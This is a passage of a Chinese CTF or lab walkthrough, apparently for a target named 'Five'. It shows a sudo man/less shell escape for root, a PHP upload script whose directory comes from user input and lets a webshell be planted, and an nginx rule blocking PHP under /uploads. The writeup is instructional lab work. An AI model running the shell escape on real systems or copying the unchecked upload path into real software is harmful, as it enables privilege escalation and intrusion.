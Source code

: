 这是因为分页模式不同，使用 less 分页即可执行命令

less分页模式

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/6.Five.015.png)

```Bash
sudo man -P /usr/bin/less man
!/bin/bash
```
![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/6.Five.016.png)

拓展

我们知道漏洞的原因是上传时允许我们修改目录绕过了他指定的上传目录/uploads

```Bash
upload.php
<?php

$target\_dir = $\_POST["directory"];
$target\_file = $target\_dir . basename($\_FILES["fileToUpload"]["name"]);
$uploadOk = 1;

// Check if $uploadOk is set to 0 by an error
if ($uploadOk == 0) {
  echo "Sorry, your file was not uploaded.";
// if everything is ok, try to upload file
} else {
  if (move\_uploaded\_file($\_FILES["fileToUpload"]["tmp\_name"], $target\_file)) {
    echo "The file ". htmlspecialchars( basename( $\_FILES["fileToUpload"]["name"])). " has been uploaded.";
  } else {
    echo "Sorry, there was an error uploading your file.";
  }
}
?>
```
看一下uploads可以发现我们上传的Php马确实是上传成功了，但是却无法访问，这是为什么呢

![...](https://yurain.oss-cn-chengdu.aliyuncs.com/Obsidian/6.Five.017.png)

看下/etc/nginx/nginx.conf与/etc/nginx/sites-enabled/defaut

在/etc/nginx/sites-enabled/defaut 找到了原因

```Bash
location ~\* /uploads/.\*.php$
{
return 403;
}
```
这一部分配置明确禁止访问 /uploads/ 目录下的任何 PHP 文件，返回 403 Forbidden 错误。


